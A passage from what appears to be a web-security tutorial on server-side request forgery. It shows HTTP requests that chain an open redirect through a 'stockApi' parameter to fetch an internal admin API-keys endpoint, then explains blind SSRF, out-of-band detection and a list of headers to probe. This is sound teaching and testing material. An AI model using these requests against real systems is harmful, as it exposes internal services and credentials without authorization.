 3) Now, in the 2nd request , the `path` parameter is vulnerable to open redirect, 
4) So , if we change the value of `StockApi` parameter(1st request) by the path of 2nd request , like this

       POST /product/stock HTTP/2
       Host: subdomain.target.com
       Cookie: session=Cbk1v0cQskhHLqkG19kybRHR2griby7p
       Content-Length: 96
       ...
       ...
       stockApi=/product/nextProduct?currentProductId=2&path=/product?productId=3

5) Now, we can play with `path` parameter coz it is vulnerable to open_redirect, the request look like this

       POST /product/stock HTTP/2
       Host: subdomain.target.com
       Cookie: session=Cbk1v0cQskhHLqkG19kybRHR2griby7p
       Content-Length: 96
       ...
       ...
       stockApi=/product/nextProduct?currentProductId=2&path=http://192.168.0.24:8080/admin/keys/api_keys

 6) In the above request, Since the application is vulnerable to open-redirect the `path` parameter gives us the 
       content of internal stuff. 
---
## BLIND/OUT_OF_BAND SSRF #

   - Blind SSRF vulnerabilities arise when an application is vulnerable to SSRF, but the response from the back-end request is not returned in the application's front-end response.

## How to Find Blind_SSRF #
   
   - The most reliable way to detect blind SSRF is using out-of-band (OAST) techniques. This involves attempting to trigger an HTTP request to an external system that you(attacker) control, and monitoring for network interactions with that system
   
   - We can also use out-of-band techniques that is using Burp Collaborator.
---
### Blind SSRF with out-of-band detection

1) We can add some of the below HTTP headers to test for SSRF   
            
            Referer: 
            From: 
            X-Originating-IP: 
            X-Client-IP: 
            Contact: 
            X-Forwarded-For: 
            Client-IP: 
            True-Client-IP: 
            X-Real-IP: 
            CF-Connecting_IP: 
            Forwarded: for= ;by= ;host=
